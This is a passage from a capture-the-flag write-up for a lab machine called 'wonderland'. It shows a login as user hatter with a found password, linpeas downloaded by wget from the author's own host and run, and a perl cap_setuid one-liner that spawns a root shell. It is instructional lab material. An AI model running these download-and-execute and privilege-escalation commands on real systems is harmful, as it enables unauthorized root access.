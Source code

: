 Now that we have switched to user `hatter`, we can see what we have in our home directory. There is a file named `password.txt`:

~~~
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
~~~

This is `hatter`'s password. I disconnected and logged back in as `hatter` since we have the password. I also used the password to check my sudo permissions, but we have none:

~~~
hatter@wonderland:~$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
~~~

I checked crontab and files owned by hatter, but there is nothing to exploit. I decided to upload `linpeas` to help the situation using a python server on my machine (`python3 -m http.server`) where the linpeas is located and `wget` on the target machine:

After running a server, do the followings to download, mark it as executable, and run it:

~~~
hatter@wonderland:~$ wget http://<YOUR IP>/linpeas.sh
hatter@wonderland:~$ chmod +x linpeas.sh
hatter@wonderland:~$ ./linpeas.sh
~~~

After looking through the linpeas' result, something took my attention:

~~~
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities

[REDACTED]

Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
~~~

In the capabilities, we can see interesting stuff about perl. I looked up [GTFOBins](https://gtfobins.github.io/) for perl capabilities and found a command:

~~~
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
~~~

I tried it and we are root now:

~~~
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
~~~
